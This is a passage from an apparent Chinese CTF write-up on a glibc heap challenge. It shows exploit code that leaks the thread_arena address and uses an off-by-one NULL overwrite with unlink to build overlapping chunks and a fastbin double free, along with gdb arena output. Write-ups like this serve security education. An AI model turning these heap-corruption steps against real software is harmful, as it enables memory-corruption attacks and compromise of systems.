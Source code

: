 这里有个坑，由于malloc大size失败后，再次malloc时glibc会从thread_arena中分配内存，而不继续使用main_arena。

因此这里还需要先泄露thread_arena的地址（泄露方法同上）:
```
# 2. switch thread_arena and leak address

new_note(0, heap+0x100, 'E')    #该chunk分配会失败，之后进入thread_arena
new_note(0, 0xf0-8, 'A'*(0xf0-8-1))
new_note(1, 0x70-8, 'B'*(0x70-8-1))
new_note(2, 0x100-8, 'C'*(0x100-8-1))
delete_note(1)
new_note(1, 0x10, 'D'*(0x10-1))
delete_note(1)
new_note(1, 0x70-8, 'B'*(0x70-8-1))
delete_note(2)
delete_note(0)
new_note(2, 0x100-8, 'C'*7)
addr = show_note(2)
thread_arena = u64(addr[8:16])
log.info('thread_arena address: %s', hex(thread_arena))
delete_note(1)
delete_note(2)
```

###2) 利用off_by_one_NULL和unlink构造fastbin的overlap

接下来开始布局overlap

注：overlap可以理解为堆块重叠，chunk_AAA中包含了chunk_BBB

此处需说明下，由于我们的操作都在thread_arena中进行，因此每个堆块的的NON_MAIN_ARENA位需要为1（即size&0x4==1）

因此我们通过off_by_one_NULL清空pre_isused的时候，也会把NON_MAIN_ARENA清空，所以需要先清空chunk_CCC的pre_isused位后，再分配chunk_CCC，将NON_MAIN_ARENA复位为1。

unlink前的布局如下：
![](https://raw.githubusercontent.com/zzz4ck/zzz4ck.github.io/master/screenshot/note_step2.PNG)

代码如下：
```
# 3. overlay chunk_BBB(fastbin)

new_note(1, 0x70-8, 'B'*(0x70-8-8)+p64(0x160))  #构造chunk_BBB，并将chunk_CCC的pre_size设置为0x160，即unlink时将chunk_AAA也纳入合并
new_note(2, 0x10, 'D'*0x7)  #利用chunk_DDD，避免chunk_CCC释放时合入top chunk

new_note(0, thread_arena+0x160+8+1, '*')    #将chunk_CCC的pre_isused位先置空，若在chunk_CCC分配后置空，将影响NON_MAIN_ARENA位，因为在thread_arena中，所以NON_MAIN_ARENA位必须为1
new_note(0, 0x100-8, 'C'*(0x100-8-8))
delete_note(0)  #触发unlink，此时chunk_AAA、chunk_BBB和chunk_CCC合并为一块chunk，并放入unsortbin
delete_note(1)  #将chunk_BBB释放回fastbin，完成overlap，该步骤也可理解为double free
```

该步骤完成后，可利用pwngdb的arenainfo查看，可以看到我们的chunk_BBB已经在`fastbin[5]`中显示overlap
```
gdb-peda$ arenainfo
==================  Main Arena  ==================
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x55d4ff772000 (size : 0x21000) 
```